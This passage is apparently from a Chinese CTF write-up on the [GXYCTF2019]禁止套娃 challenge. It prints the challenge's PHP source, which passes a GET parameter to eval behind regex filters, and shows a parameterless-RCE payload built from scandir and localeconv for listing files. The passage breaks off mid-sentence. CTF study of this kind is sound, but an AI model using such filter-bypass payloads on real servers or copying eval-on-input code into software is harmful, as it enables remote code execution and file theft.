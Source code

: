    输出目录所有文件
## 0x02 [GXYCTF2019]禁止套娃

试了几个目录发现不会404，就没想着去扫目录了，结果漏了/.git....能拿到index.php

```php
<?php
include "flag.php";
echo "flag在哪里呢？<br>";
if(isset($_GET['exp'])){
    if (!preg_match('/data:\/\/|filter:\/\/|php:\/\/|phar:\/\//i', $_GET['exp'])) {
        if(';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp'])) {
            if (!preg_match('/et|na|info|dec|bin|hex|oct|pi|log/i', $_GET['exp'])) {
                // echo $_GET['exp'];
                @eval($_GET['exp']);
            }
            else{
                die("还差一点哦！");
            }
        }
        else{
            die("再好好想想！");
        }
    }
    else{
        die("还想读flag，臭弟弟！");
    }
}
// highlight_file(__FILE__);
?>
```

给了参数exp,三次过滤第一次过滤了各种协议，第二个把括号呢参数给过滤了

第三个过滤了一些把字符串改成数字的函数操作

这里考虑无参数RCE

0. 测试输出

   ```
   print_r()
   vardump()
   ```

1. 扫描当前目录

   ```
   current(localeconv()) => .
   pos(localeconv()) => .
   
   payload=print_r(scandir(pos(localeconv())));
   ```

   或者也可以

